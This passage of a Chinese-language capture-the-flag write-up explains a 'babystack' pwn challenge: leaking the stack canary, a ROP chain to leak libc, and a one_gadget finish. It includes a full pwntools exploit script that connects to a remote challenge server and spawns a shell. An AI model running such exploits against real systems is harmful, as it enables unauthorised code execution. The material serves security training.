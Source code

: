 获得canary之后就可以进一步泄漏库函数地址计算offset了。

`payload=0x84*'a'+'N0P3'+p64(canary)+'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(start_addr)`

小片段是通过ROPgadget找到的。

获得offset之后就可以按照一般的ret2libc方法get shell了。但是这里对payload的长度有限制（0x100），所以用one_gadget来解。

最后的payload

`payload=0x84*'a'+'N0P3'+p64(canary)+'b'*0x8+p64(GetShell)`

Exp

```python
#coding=utf-8
from pwn import*
context.log_level='debug'
res=remote('220.249.52.133',36024)
elf=ELF('./babystack')
libc=ELF('./libc-2.23.so')
res.recvuntil('>> ')
payload=0x85*'a'+'N0P3'
res.send('1')
res.send(payload)
#res.recv()不知道为什么不需要接收
res.recvuntil('>> ')
res.send('2')
canary_raw=res.recvuntil('\n---')
canary=u64('\x00'+canary_raw[137:137+7])#得到canary(canary的高位被我们覆盖了，补一个）
print('Get Canary!')
#--------------------------------------------------------
#ROPgadget --binary babystack --only "pop|ret"|grep "rdi"
start_addr=0x400720
pop_rdi=0x400a93
puts_got=elf.got['puts']
puts_plt=0x400690
payload=0x84*'a'+'N0P3'+p64(canary)+'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(start_addr)
res.send('1')
res.send(payload)
res.recv()#需要接收一次空
res.recvuntil('>> ')
res.send('3')
puts_got=u64(res.recv(6).ljust(8,'\x00'))
print('Get Puts_Got!')
#--------------------------------------------------------
#One_gadget 
shell= 0x45216
puts_libc=libc.symbols['puts']
offset=puts_got-puts_libc
GetShell=offset+shell
payload=0x84*'a'+'N0P3'+p64(canary)+'b'*0x8+p64(GetShell)
res.send('1')
res.send(payload)
#res.recv()不知道为什么不需要接收
res.recvuntil('>> ')
res.send('3')
res.interactive()
```
